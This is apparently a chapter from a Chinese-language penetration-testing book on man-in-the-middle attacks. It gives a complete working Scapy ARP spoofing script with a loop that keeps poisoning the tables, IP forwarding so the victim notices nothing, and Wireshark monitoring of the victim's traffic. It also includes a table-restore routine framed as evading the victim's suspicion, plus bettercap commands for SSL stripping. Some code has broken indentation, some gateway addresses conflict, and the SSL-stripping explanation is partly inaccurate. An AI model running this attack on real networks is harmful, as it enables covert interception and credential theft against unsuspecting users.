# 5
中间人攻击

在上一章中，我们学习了网络扫描。网络扫描是信息收集的一部分，允许用户查找本地网络中的主机。在本章中，我们将学习如何利用这些信息来攻击本地网络上的受害者。我们将在本章中涵盖以下主题：

- 为什么我们需要 ARP？
- 构建 ARP 欺骗程序
- 监控流量
- 加密流量
- 手动恢复 ARP 表
- 解密网络流量

## 为什么我们需要 ARP？

在之前的章节中，我们提到过地址解析协议是什么。在本章中，我们将更深入地研究它。在本地网络中，通信在设备之间使用 MAC 地址而不是 IP 地址进行。这些也称为 *链路层地址*。ARP 是一个请求响应协议，这意味着一个设备请求服务，另一个设备对该请求做出响应。假设网络中存在两个设备，没有外部互联网连接。为了让它们相互通信，它们需要依赖于底层协议，即所谓的第 2 层协议。我们已经简要学习过 ARP 表。通过使用 ARP 表，设备可以通过使用其 IP 和 MAC 地址的映射来维护网络上所有活动设备的列表。这种 ARP 表技术相当古老，并且是在没有考虑安全性的情况下设计的。它有一些固有的弱点可以被利用，我们将在后面的部分看到。

## ARP 欺骗

在学习 ARP 欺骗之前，让我们再看看 ARP。ARP 基本上是安装在你的 PC 上的一个程序，它会自动执行与 ARP 相关的所有任务，而无需用户输入。要从机器获取地址，它会在其请求中将 FF:FF:FF:FF:FF:FF 作为广播地址放置。它这样做是为了将请求发送到网络中的所有活动设备，同时询问相关问题。随后，目标设备会用适当的答案回复。让我们看一下下面的图表，了解 ARP 请求和响应是如何生成的：



Figure 5.1 – ARP 请求和响应

设备 A 发送请求，设备 B 用其 MAC 地址回复答案。看起来很简单，对吧？实际上，该协议存在设计缺陷。当设备 B 收到请求时，它无法知道请求设备提供的信息是否正确。通过这种方式，你可以轻松地欺骗数据包。稍后会详细介绍。

让我们考虑一个简单的场景：



Figure 5.2 – 互联网通信

假设设备 A 想与基于互联网的设备通信。正如我们所知，它不能直接自行连接到互联网——它必须通过网关。设备的相应 IP 和 MAC 地址显示在下面的图像中。设备 A 和网关维护自己的 ARP 表。为了让设备 A 向外部服务器发送请求，它将在自己的 ARP 表中查找网关设备的 MAC 地址。一旦成功找到设备的 MAC 地址，它将向网关发送请求。这在前面的图表中用步骤 1 表示。如果本地网络中只有一个设备，设备 A 中的 ARP 表将如下所示：

| Number | IP address | MAC address |
|---|---|---|
| 1 | 192.168.1.1 | 12:34:53:65:63:22 |

Figure 5.3 – 设备 A 中的 ARP 表

现在，由于网关是本地网络和互联网之间的桥梁，我将为数据包找出外部 IP 地址。然后，使用其自己的外部或公共 IP 地址，它将请求转发到位于 77.88.99.11 的服务器。这是步骤 2。服务器将处理请求并在步骤 3 中回复路由器。路由器将收到此回复并找出外部数据包应该去哪里。它是如何找出数据包应该去哪里？正如你可能猜到的那样，它将查看目标地址和目标端口。使用其自己的 ARP 表，它将看到相应的设备位于何处。路由器中的 ARP 表将如下所示：

| Number | IP | MAC |
| --- | --- | --- |
| 1 | 192.168.1.44 | 23:55:66:22:55:44 |

Figure 5.4 – 路由器中的 ARP 表

在步骤 4 中，路由器将简单地将回复转发给预期的接收者。

到目前为止，我们已经了解了正常的请求响应是如何工作的。现在，我们将添加一个额外的参与者，称为黑客/渗透测试人员。

ARP 的工作方式如下。正如我们所知，设备不断地连接到网络和断开连接，因此 ARP 程序不会无限期地保留此 ARP 表。另一个原因是动态主机控制协议（DHCP）服务器会自动为网络中的设备分配 IP 地址。因此，当设备离线时，IP地址会再次可用，以便可以分配给新连接的设备。出于这个原因，网络中的设备会定期向网络中的其他设备发送 ARP 响应，让它们知道其当前的 IP 和 MAC 地址。这确保了所有设备都有 IP 和 MAC 地址的最新记录。现在，当设备收到 ARP 响应时，它会在没有任何身份验证或验证的情况下更新其 ARP 表。你能看到这里的问题吗？如果设备创建包含虚假信息的 ARP 响应并将其发送给受害者/目标机器，接收设备将使用虚假信息更新其 ARP 表，而不会验证数据的正确性。ARP 协议的另一个弱点是，它允许我们接受响应，即使它没有发送请求。


让我们看看当我们在网络中添加一个恶意行为者时会发生什么：



## 图 5.5 – 向网络中添加攻击者

在这里，属于黑客的设备 B 将生成两个伪造的 ARP 响应——一个针对受害者，一个针对网关路由器。它将向设备 A 发送 arp 回复并假装成路由器。同样，它将向路由器发送回复并假装成设备 A。现在，设备 A 和路由器都将用这些新的伪造信息更新其 ARP 表。现在，如果设备 A 向外部服务器发出与之前相同类型的请求，请求将不会去往路由器，而是会去往攻击者。攻击者然后可以选择将请求转发给路由器。此时，路由器会认为请求来自设备 A，而实际上请求来自设备 B。设备 B 实际上是在拦截路由器与设备 A 之间的所有网络流量。还记得我们之前学过的 CIA 三要素吗？你能看出这里违反了哪条规则吗？这里的全部三条规则都可能被破坏，这取决于黑客打算如何使用这些信息。现在，黑客有效地成为了路由器与设备 A 之间的中间人。这就是为什么它被称为中间人攻击（MITM）。这种漏洞非常知名，被称为 ARP 欺骗。

> **重要提示**
> 
> ARP 表会在一段时间后重置，因此只发送一个数据包进行欺骗是行不通的。为了能够在更长时间内成功欺骗，你需要不断发送这些伪造的制造数据包，以便 ARP 表不会在一定时间后重置。

## 构建 ARP 欺骗程序

在本节中，我们将学习如何构建一个 ARP 欺骗程序。在继续之前，让我们再次查看 Kali 以及 Windows 中的 ARP 表。Kali Linux 中的 ARP 表如下：

```
(venv) —(kali㉿kali)-[~/packet-book-code/example2-introduction-scapy]
└─$ arp -a
? (192.168.74.2) at 00:50:56:ff:74:8b [ether] on eth0
? (192.168.74.254) at 00:50:56:f8:e6:bc [ether] on eth0
? (192.168.74.129) at 00:0c:29:be:47:14 [ether] on eth0
```



Windows 中的 ARP 表如下所示。请查看突出显示的字段：

```
C:\Users\fahad-sarwar>arp -a

Interface: 192.168.74.129 --- 0xc
  Internet Address      Physical Address      Type
  192.168.74.2          00-50-56-ff-74-8b     dynamic
  192.168.74.128        00-0c-29-90-79-02     dynamic
  192.168.74.255        ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```



正如你所见，它们为位于 192.168.74.2 的路由器提供了正确的 MAC 地址。Kali 位于 192.168.74.128，而 Windows 10 位于 192.168.74.129。

为了欺骗这些设备，我们将逐步解决这个问题。首先，我们将处理用路由器的 MAC 地址欺骗受害者机器。

## Arp 欺骗项目

在 Kali Linux 中打开 VS Code 并创建一个名为 ARP spoof 的新项目。按照第 2 章《入门 – 设置实验环境》所示安装虚拟环境。一旦虚拟环境安装完成，通过编写以下命令启用虚拟环境：

```
source venv/bin/activate
```

这将激活新的虚拟环境。在此环境中安装 Scapy 模块并创建一个名为 main.py 的新文件。

为了在一行中导入所有 scapy 模块，而无需分别显式导入每一个，你可以编写以下行：

```
from scapy.all import *
```

* 表示我们想要导入 scapy 中存在的所有模块。正如我们在上一节中所学到的，要进行欺骗，我们必须创建伪造的响应。首先，我们将创建一个 intended for the victim 的响应。为此，我们将创建一个 arp 数据包并查看其中可以设置哪些字段。要创建 ARP 数据包并查看其中存在的字段，我们可以编写以下代码：

```
arp_response = ARP()
print(arp_response.show())
```

此代码的输出如下所示：



图 5.8 – ARP 数据包字段

我们感兴趣的字段从 op 开始。Op 代表操作或数据包类型。这是一个 who has 操作，这意味着它是一个 ARP 请求。但我们感兴趣的是创建 ARP 响应而不是请求。hwsrc 是 Kali 机器的 MAC 地址，同样，psrc 是其 IP 地址。hwdst 和 pdst 尚未为此数据包设置。现在，我们将对该数据包进行以下修改以欺骗受害者：

- 将 op 改为 2，表示这是一个响应 ARP 数据包，而不是请求。注意，默认情况下此值为 1，表示它对应于 who-has 操作。
- 更改 psrc 地址字段，使其等于路由器的 IP 地址值。由于我们的路由器位于 192.168.72.2，我们将此字段设置为此值。
- 最后，我们将 pdst 设置为受害者机器的 ip 地址，即 192.168.74.129。我们还将设置 hwdst 地址，即受害者的 MAC 地址。

要查看 Windows 机器的 MAC 地址，你可以在命令提示符中编写以下命令，或使用我们在上一章中创建的网络扫描器：

```
Ipconfig /all
```

一旦你获得了必要的信息，请继续在 Python 中进行以下更改：

```
arp_response.op = 2
arp_response.pdst = "192.168.74.129" // windows IP
arp_response.hwdst = "00:0C:29:BE:47:14"      // windows mac
arp_response.hwsrc = "00:0c:29:90:79:02"      // kali mac
arp_response.psrc = "192.168.74.2"   // fake field value
```

只有最后一个字段是伪造的；我们将从 192.168.74.128 发送它，同时假装在 192.168.74.2。一旦所有字段都已设置，你可以打印它们以查看它们是否已正确定义：

```
print(arp_response.show())
```

以下屏幕截图显示了根据我们之前编写的代码进行的欺骗数据包：



图 5.9 – 欺骗的 ARP 数据包

在这里，你可以看到 op 字段现在是响应而不是请求。字段值现在是 is-at。同样，psrc 字段假装是路由器的 IP 而不是 Kali。请注意，我们还没有发送数据包。要发送此数据包，我们可以简单地使用 send 函数：

```
send(arp_response)
```

现在，如果你运行此程序并在 arp 表重置之前迅速转到 Windows 机器，你会看到 Windows 机器的 arp 表已被污染，其 arp 表条目显示了 192.168.72.2 网关的错误 MAC 地址。不是指向实际网关，它现在指向 Kali 的 MAC 地址：



图 5.10 – Windows 中被污染的 ARP 表

将其与图 5.6 中 192.168.74.2 的值进行比较。在这里，你可以看到此新表中物理地址的值已被修改。请注意，如果你花费太长时间查看此值，它将自动重置。我们将在稍后学习如何防止它在更长的欺骗期间自动重置。

现在，让我们创建一个函数，以便我们可以轻松调用它：

```
def spoof_victim():
    arp_response = ARP()
    arp_response.op = 2
    arp_response.pdst = "192.168.74.129"
    arp_response.hwdst = "00:0C:29:BE:47:14"
    arp_response.hwsrc = "00:0c:29:90:79:02"
    arp_response.psrc = "192.168.74.2"
    send(arp_response)
```

我们还将创建一个类似的函数来欺骗路由器：

```
def spoof_router():
    arp_response = ARP()
    arp_response.op = 2
    arp_response.pdst = "192.168.74.2" // router's IP
    arp_response.hwdst = "00:50:56:ff:74:8b" // router's mac
    arp_response.hwsrc = "00:0c:29:90:79:02" // kali's mac
    arp_response.psrc = "192.168.74.129" // fake pretending to be device A.
    send(arp_response)
```

在此函数中，我们更改了 pdst、hwdst 和 psrc 的值。

完整的程序如下：

```
from scapy.all import *

def spoof_victim():
    arp_response = ARP()
    arp_response.op = 2
    arp_response.pdst = "192.168.74.129"
```


arp_response.hwdst = "00:0C:29:BE:47:14"
arp_response.hwsrc = "00:0c:29:90:79:02"
arp_response.psrc = "192.168.74.2"
send(arp_response)

def spoof_router():
    arp_response = ARP()
    arp_response.op = 2
    arp_response.pdst = "192.168.74.2"
    arp_response.hwdst = "00:50:56:ff:74:8b"
    arp_response.hwsrc = "00:0c:29:90:79:02"
    arp_response.psrc = "192.168.74.129"
    send(arp_response)

if __name__ == "__main__":
    spoof_victim()
    spoof_router()

请注意，这只会欺骗这些设备一次。要创建永久欺骗，我们可以将这些函数调用添加到循环中，并在一定的延迟后持续发送这些数据包。这样，ARP 表就不会有机会重置，只要你的欺骗程序在运行，你就可以永久欺骗这些设备。

我们也可以尝试在循环中加入退出条件。我们将使用 KeyboardInterrupt 来退出。使用以下代码在每隔 2 秒的延迟后持续发送数据包：

```
try:
    while True:
        spoof_victim()
        spoof_router()
        time.sleep(2)
except KeyboardInterrupt as err:
    print("exiting")
```

请注意，你需要在文件的顶部导入 time 模块。虽然我们的欺骗程序看起来已经完成，但有一个小问题——如果受害者现在尝试请求互联网服务器，他们将看到互联网连接问题。在 Linux 上运行 arp 欺骗程序，然后去 Windows 机器尝试访问一个网站。你会看到类似如下的窗口：


图 5.11 – 无连接

这是因为数据包正在前往 Kali 机器，但它阻止了数据包被转发。要启用数据包转发，在你的 Linux 终端上运行以下命令：

```
sysctl -w net.ipv4.ip_forward=1
```

这将在 Kali 机器上启用 IP 转发。现在，Windows 用户将能够在完全没有察觉有人拦截其流量的情况下访问互联网：



图 5.12 – 启用 IPv4 转发

现在，如果你去 Windows 机器再次尝试访问一个网站，你应该有互联网连接。现在，你的欺骗程序应该能完美运行。

## 监控流量

要查看用户在做什么，你可以在 Kali 上打开 *Wireshark* 并选择 `eth0` 接口以查看网络上所有经过的流量。要仅查看来自 Windows 机器的流量，你可以在过滤器菜单中设置一个过滤器。使用以下过滤器：

```
ip.src == 192.168.74.129
```

这将只显示源自 Windows 机器的流量。现在，如果你去 Windows 机器并访问一个网站，你应该能在 Wireshark 中看到数据包到达：



图 5.13 – 来自 Windows 机器的 Wireshark 流量

在本节中，我们学习了如何中毒 ARP 表并监控受害设备与互联网之间的网络流量。在下一节中，我们将学习这种网络流量是如何加密的，以及这种加密是如何被破解的。

## 加密流量

在互联网早期，互联网流量大多基于文本，因此在网络上嗅探的任何人都可以清楚地看到正在传输的内容。这极不安全，人们无法在网络上传输密码等敏感信息。自那以后，互联网已经取得了长足的进步。现在，除了一些非常老旧的网站外，大多数互联网流量都是安全的并使用加密。这意味着即使你可以看到流量，你也无法读取它，因为它是加密的。如果你在网站的 URL 上看到 `https` 标签，这意味着网络流量是加密的，无法在传输中被读取。有工具可以用来解密这种流量。

## 手动恢复 ARP 表

现在我们已经看到了如何成功欺骗数据包，当我们使用键盘中断（如 Ctrl + C）关闭程序时，我们会发现 Windows 机器上的互联网再次变得不可用。这是因为 ARP 表已被中毒，我们没有恢复它们，因此它们不知道如何路由网络流量。这会在几分钟后自动重置。然而，这可能会引起受害者的怀疑，他们可能会意识到有人在篡改他们的网络流量。为了避免这种情况，我们可以在退出程序时发送正确的信息来恢复这些表。我们可以使用以下程序来恢复正确的值：

```
def restore():
    # restoring router table
    arp_response = ARP()
    arp_response.op = 2
    arp_response.pdst = "192.168.74.2"
    arp_response.hwdst = "00:50:56:ff:74:8b"
    arp_response.hwsrc = "00:0C:29:BE:47:14"
    arp_response.psrc = "192.168.74.129"
    send(arp_response)
    #restoring windows table
    arp_response = ARP()
    arp_response.op = 2
    arp_response.pdst = "192.168.74.129"
    arp_response.hwdst = "00:0C:29:BE:47:14"
    arp_response.hwsrc = "00:50:56:ff:74:8b"
    arp_response.psrc = "192.168.74.2"
    send(arp_response)
```

请注意，这些值是针对我的平台的；它们在你的平台上会不同，因此你应相应地更改这些值。要恢复 ARP 表，从我们的 Linux 机器向路由器发送这些值，同时假装是设备 A。这次，不要输入虚假信息，输入正确的值。对 Windows 机器做同样的操作。最后，在发生键盘中断时调用此函数，如下所示：

```
try:
    while True:
        spoof_victim()
        spoof_router()
        time.sleep(2)
except KeyboardInterrupt as err:
    print("restoring ARP tables")
    restore()
    print("exiting")
```

在本节中，我们学习了如何中毒 ARP 表、监控网络流量，以及在受害机器中恢复 ARP 表以确保他们不会怀疑我们的活动。接下来，我们将学习如何解密这种网络流量。

## 解密网络流量

正如我们在上一节中看到的，我们可以使用中间人攻击来拦截流量。然而，这种攻击单独使用很少有用，因为现在的浏览器流量都是加密的，所以即使你能够拦截流量，你也做不了太多。你可以通过使用 SSL 剥离来绕过此过程。拦截未加密的流量有时也很实用，当你想监控用户的活动时。这可以帮助你找出用户访问最多的网站。将此信息与社会工程攻击结合使用可以帮助你入侵受害者的机器。

## HTTPS 与 HTTP

要理解 SSL 剥离的工作原理，我们需要了解超文本传输协议 HTTP 和 HTTPS 协议的工作原理。HTTPS 是 HTTP 的安全版本，正如其名称末尾的 S 所指示的那样。它是在互联网早期开发的，当时信息以人类可读文本的形式发送，任何拦截或监控流量的人都可能看到正在发生的事情。

一个典型的 **HTTP** 请求看起来像这样：



图 5.14 – HTTP 请求

正如你所见，HTTP 请求的主体是以纯文本形式存在的，这意味着它可以被轻松读取。因此，如果你以明文形式向服务器发送你的电子邮件或密码，黑客可能窃取你的凭据。你已经知道这有多危险。为了避免这个问题，开发了 HTTPS，它可以加密消息的主体，以便只有服务器和请求方可以用正确的加密密钥读取它——中间人无法读取它。一旦服务器收到请求，它将以适当的回复进行响应。服务器的回复看起来像这样：



图 5.15 – HTTP 回复

最后一行代表回复的主体，即用户请求的网页。在 HTTPS 的情况下，这些请求和响应的 *主体* 将被加密，对攻击者来说看起来像乱码。现在，让我们专注于如何绕过它。


## 绕过 HTTPS

尽管如今大多数网站都支持 HTTPS 而非 HTTP，但在服务器端，为了保持向后兼容，服务器仍然允许请求来自 *HTTP*，一旦收到请求，就会检查客户端/请求方是否支持 HTTPS。我们可以利用这一点来绕过此安全机制。下面的图表展示了 HTTP 请求与 Web 服务器的工作方式：



图 5.16 – HTTP 循环

当客户端首次访问一个网站时，通常使用 HTTP 协议，因此它会发送一个不安全的请求来建立连接。服务器收到此请求后，会询问客户端是否支持 HTTPS。如果客户端支持 HTTPS，服务器会说，*为什么不通过 HTTPS 与我交谈呢？*。客户端随后切换到 *HTTPS*。一旦发生这种情况，所有的通信都会被加密。

这就是我们引入中间人 *攻击者* 的地方。我们将以一种欺骗服务器和客户端的方式进行。让我们看一下下面的图表：



图 5.17 – 使用 SSL 剥离的 MITM 攻击

在第一阶段，客户端会向服务器发出 HTTP 请求。攻击者坐在客户端和服务器之间，并使用我们在上一章中开发的 arp spoofing 程序来监控流量。他们会从客户端获取此请求，将其转换为 HTTPS 请求，然后转发给服务器。服务器会认为客户端是通过 HTTPS 而非 HTTP 在交谈。同样，攻击者会接收来自服务器的回复，对其解密并读取正在发生的事情。完成之后，他们会将回复转发给受害者/客户端。这样，受害者会认为服务器是通过 HTTP 交谈，而服务器会认为客户端是通过 HTTPS 交谈。与此同时，攻击者正在读取所有网络流量。

攻击者的工作是加密和解密服务器用于在传输层进行身份验证的 SSL 证书。它们构成了安全通信的基础。学习如何执行 SSL 剥离超出了本书的范围，因为它需要广泛的网络知识，这本身就可以是一本书。我们的目标是使用此工具来破坏系统。我们将使用一个著名的 SSL 剥离工具 bettercap 来实现。我们将使用版本 2.23。请注意，此组件的最新工具似乎无法正常工作。它可以在 https://github.com/bettercap/bettercap/releases/download/v2.23/bettercap_linux_amd64_2.23.zip 获取。

下载此工具并在 Linux 上运行。

下载后，将此压缩文件放在 Kali Linux 上的所需位置并解压模块。你会看到一个名为 bettercap 的可执行文件。你可以直接运行此可执行文件，它会正常工作。然而，我建议将其放在 /usr/bin/ 目录中，以便你可以从任何地方访问它，因此将此文件复制到 /usr/bin/。

要复制文件，请使用以下命令：

```
sudo cp bettercap /usr/bin/bettercap
```

复制后，只需打开一个终端并输入 bettercap 即可运行文件。在继续之前，我们需要做几件事来启动它。输入以下命令：

```
sudo bettercap
```

界面将如下所示：



接下来，你需要更新一些内容；即此模块的一些内部文件，称为 caplets。别担心——你在这里不需要了解太多关于 caplets 的内容。只需输入以下命令，让魔法发生即可：

```
caplets.update
```

这将下载一些文件并更新它们。

退出此程序以使更改生效。现在，让我们再次使用以下命令运行程序：

```
sudo bettercap --silent -iface eth0
```

此命令将以静默模式运行 bettercap，同时使用 eth0 作为其主要网络接口。要查看网络上有哪些设备可用，你可以输入以下命令：

```
net.probe on
```

此命令的输出将如下所示：



图 5.19 – 网络上的活动主机

让我们尝试为此应用程序使用内部 arpspoof 程序。输入以下命令为我们的 Windows 机器设置 arp spoofing：

```
set arp.spoof.targets 192.168.74.129
```

这将设置受害者。要启动 arp spoofing 程序，我们可以输入以下命令：

```
set arp.spoof.internal true
```

```
set arp.spoof on
```

这将开始欺骗设备：



图 5.20 – 设备欺骗

此时，我们来到了 SSL 剥离部分。要开始剥离 HTTPS 流量，我们需要转到 Windows 机器并清除所有浏览历史记录。这将确保我们不会加载网站的缓存版本。

如果你想查看 bettercap 上正在运行哪些服务，可以使用以下帮助命令：

